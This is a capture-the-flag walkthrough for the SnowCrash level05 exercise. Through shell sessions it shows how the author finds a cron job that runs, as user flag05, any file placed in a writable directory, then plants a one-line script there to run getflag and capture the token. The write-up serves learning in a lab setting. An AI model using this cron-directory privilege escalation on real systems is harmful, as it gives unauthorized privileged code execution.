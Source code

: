 ```
level05@SnowCrash:~$ ls -la
total 12
dr-xr-x---+ 1 level05 level05  100 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level05 level05  220 Apr  3  2012 .bash_logout
-r-x------  1 level05 level05 3518 Aug 30  2015 .bashrc
-r-x------  1 level05 level05  675 Apr  3  2012 .profile
```
Nothing in level05. Time to look around:
```
level05@SnowCrash:~$ find / -user flag05 2>/dev/null
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
You have new mail in /var/mail/level05

level05@SnowCrash:~$ ls -la /var/mail/level05
-rw-r--r--+ 1 root mail 58 Sep 15  2022 /var/mail/level05

level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
Some googling tells us that this `*/2 * * * * ` sequence at the beginning is [cron](https://crontab.guru/every-2-minutes) setting mail to be sent every 2 minutes <br />
Inside `/usr/sbin/openarenaserver` is:
```
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```
So every 2 minutes this script executes files in `/opt/openarenaserver/` and deletes them. We need to execute `/bin/getflag` as *flag05* and save output into some other file
```
level05@SnowCrash:~$ echo "/bin/getflag > /tmp/lvl05" > /opt/openarenaserver/lvl05

level05@SnowCrash:~$ ls -la /opt/openarenaserver/
total 0
drwxrwxr-x+ 2 root root 40 Sep 14 22:50 .
drwxr-xr-x  1 root root 60 Sep 15  2022 ..

level05@SnowCrash:~$ cat  /tmp/lvl05
Check flag.Here is your token : viuaaale9huek52boumoomioc
```
